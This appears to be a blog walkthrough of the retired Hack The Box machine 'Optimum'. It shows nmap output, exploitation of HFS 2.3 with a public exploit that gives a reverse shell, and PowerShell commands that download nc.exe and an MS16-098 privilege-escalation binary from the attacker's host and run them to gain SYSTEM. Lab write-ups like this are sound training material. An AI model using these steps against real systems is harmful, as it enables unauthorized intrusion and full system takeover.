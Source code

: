 ```yaml
---
layout: post
title:  "Optimum"
categories: HTB-Walkthrough
---
```


![optimum](/assets/img/optimum.png)

Optimum is another OSCP-like box from the HTB 'retired' archive.


`nmap -sV -Pn --min-rate 10000 10.10.10.8 |tee -a opt.txt`

```

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-25 11:51 EST
Nmap scan report for 10.10.10.8
Host is up (0.092s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```


<h3>Using Searchsploit</h3>

`searchsploit hfs 2.3`

```

----------------------------------------------------- ----------------------------------
 Exploit Title                                       |  Path
                                                     | (/opt/exploitdb/)
----------------------------------------------------- ----------------------------------
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary F | exploits/multiple/remote/30850.tx
Rejetto HTTP File Server (HFS) 2.3.x - Remote Comman | exploits/windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Comman | exploits/windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remo | exploits/windows/webapps/34852.tx
----------------------------------------------------- ----------------------------------

```

We'll check out the python script, `searchsploit -m 39161.py` will copy the exploit to the pwd (present working directory).
...looks promising...

```

python 39161.py 10.10.10.8 80

```

we get user shell...to our nc listener on port 443.

```

root@kali:~/HTB/retired/optimum# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.8] 49172
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

31/01/2020  03:52 ��    <DIR>          .
31/01/2020  03:52 ��    <DIR>          ..
31/01/2020  03:21 ��    <DIR>          %TEMP%
18/03/2017  02:11 ��           760.320 hfs.exe
18/03/2017  02:13 ��                32 user.txt.txt
               2 File(s)        760.352 bytes
               3 Dir(s)  31.898.783.744 bytes free

C:\Users\kostas\Desktop>type user.txt.txt
type user.txt.txt
d0xxxxxxxxxxxxxxxxxxxxxx73

```

<h3>Privilege Escalation</h3>

User flag down, now we need to privesc to get the root.txt flag.

Use `powershell iwr -uri http://10.10.14.19/nc.exe -outfile .\nc.exe`
do the same for winPEAS.bat

Sometimes "iwr" won't work, and you'll have to type out the long version 'Invoke-WebRequest'.


run `winPEAS.bat > enum.txt` then send enum.txt via nc.

do `systeminfo`
copy output and paste to kali machine.

try [windows-exploit-suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

The resulting output is voluminous, so I won't paste it all here...
I selected ms16-098 and downloaded the exploit from github...

served it with `python3 -m http.server 80`
I used the IWR (Invoke-WebRequest)powershell command to move the file into my boo folder on the target.

```

C:\boo>powershell iwr -uri http://10.10.14.19/bfill.exe -outfile .\b.exe
powershell iwr -uri http://10.10.14.19/bfill.exe -outfile .\b.exe

```

So just run it....

```

C:\boo>c:\boo\b.exe
c:\boo\b.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\boo>whoami
whoami
nt authority\system

```

From here we can just grab the root.txt flag...

```

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51xxxxxxxxxxxxxxxxxxxxxxxxxxxxed

```

:)



